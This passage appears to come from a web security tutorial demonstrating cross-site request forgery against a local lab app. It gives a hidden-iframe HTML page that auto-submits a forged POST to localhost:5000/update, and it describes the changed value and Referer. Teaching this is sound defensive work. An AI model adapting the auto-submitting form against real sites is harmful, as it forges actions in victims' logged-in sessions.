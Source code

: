 Now that the service is running we want to serve the malicious piece of javascript that is responsible for performing the malicious CSRF POST request.

```markup
<iframe style="display:none" name="csrf-frame"></iframe>
<form method='POST' action='http://localhost:5000/update' target="csrf-frame" id="csrf-form">
  <input type='hidden' name='color' value='Hackzord!'>
  <input type='submit' value='submit'>
</form>
<script>document.getElementById("csrf-form").submit()</script>
```

Save the snippet above to &gt; templates/evil.html and run the command below to start our evil application.

```text
$ python app.py
```

Now when we have in the browser tab our active session of the application we can open a new tab where we will load our evil page we just created.

```text
http://localhost:1337/
```

This will now create a POST request to the application and changing the value of blue to the new value of 'Hackzord!' As you can see the Referer is set to our evil website where the request originated from.

![](.gitbook/assets/screen-shot-2019-03-04-at-21.24.14.png)

Also when we refresh the original page of the application we can see that the new vaulue has been replaced with the content of our evil app.

![](.gitbook/assets/csrf-samesite2.png)
